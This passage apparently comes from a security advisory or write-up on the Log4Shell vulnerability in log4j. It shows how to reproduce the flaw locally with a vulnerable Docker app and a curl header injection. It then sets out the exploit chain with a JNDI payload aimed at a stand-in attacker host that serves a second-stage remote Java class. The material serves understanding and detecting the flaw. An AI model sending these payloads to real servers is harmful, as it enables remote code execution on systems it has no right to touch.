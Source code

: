 ```ts

    String response = "<h1>Hello from: " + apiVersion + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

#### Reproducing Locally

If you want to reproduce this vulnerability locally, you can refer to christophetd's [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app).

In a terminal run:

```shell
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

And in another:

```shell
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

The logs should include an error message indicating that a remote lookup was attempted but failed:

```shell
2021-12-10 17:14:56,207 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1/a]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
```

### Exploit Steps

1. Data from the User gets sent to the server (via any protocol).
2. logs the data containing the malicious payload from the request `${jndi:ldap://some-attacker.com/a}`, where `some-attacker.com` is an attacker controlled server.
3. The log4j vulnerability is triggered by this payload and the server makes a request to `some-attacker.com` via "[Java Naming and Directory Interface](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)" (JNDI).
4. This response contains a path to a remote Java class file (ex. `http://second-stage.some-attacker.com/Exploit.class`), which is injected into the server process.
5. This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

Due to how common Java vulnerabilities such as these are, security researchers have created tools to easily exploit
them. The [marshalsec](https://github.com/mbechler/marshalsec) project is one of many that demonstrates generating an
exploit payload that could be used for this vulnerability. You can refer to [this malicious LDAP server](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java) for an example of exploitation.

## How to identify vulnerable remote servers
